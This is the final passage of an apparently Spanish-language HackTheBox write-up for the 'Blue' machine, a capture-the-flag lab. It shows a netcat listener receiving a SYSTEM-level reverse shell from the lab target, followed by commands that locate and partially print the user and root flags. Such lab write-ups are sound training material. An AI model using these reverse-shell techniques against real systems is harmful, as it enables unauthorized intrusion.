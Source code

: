 ```bash
rlwrap nc -lvnp 4564
listening on [any] 4564 ...
connect to [10.10.14.11] from (UNKNOWN) [10.10.10.40] 49159
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

whoami
whoami
nt authority\system
```

## ESCALADA DE PRIVILEGIOS

En esta ocasión el escalamiento de privilegios no fue necesario debido a que la explotación del CVE nos permitió el acceso al usuario administrador directamente, dando una ventaja en cuando a la búsqueda de vías potenciales de escalamiento.

## FLAGS

Lo único que nos queda es leer las banderas de user y root. Pueden ver la flag con `type`, pero para hacerlo más retador solo dejaré los primeros 10 caracteres de la flag. 

```bash
cd C:\
dir /b/s user.txt
C:\Users\haris\Desktop\user.txt
set /P user=<"C:\Users\haris\Desktop\user.txt"
echo.%user:~0,10%
05789868dd
```

```bash
dir /b/s root.txt
C:\Users\Administrator\Desktop\root.txt
set /P root=<"C:\Users\Administrator\Desktop\root.txt"
echo.%root:~0,10%
3237c9c2dc
```

¡Hemos logrado completar la máquina `Blue` de HackTheBox!

<p style="text-align: center;">
<img src="/assets/images/blue/03-finish.png">
</p>

_¡Que tengan un buen día en el planeta donde se encuentren!_

**Nos vemos en otro bit.**
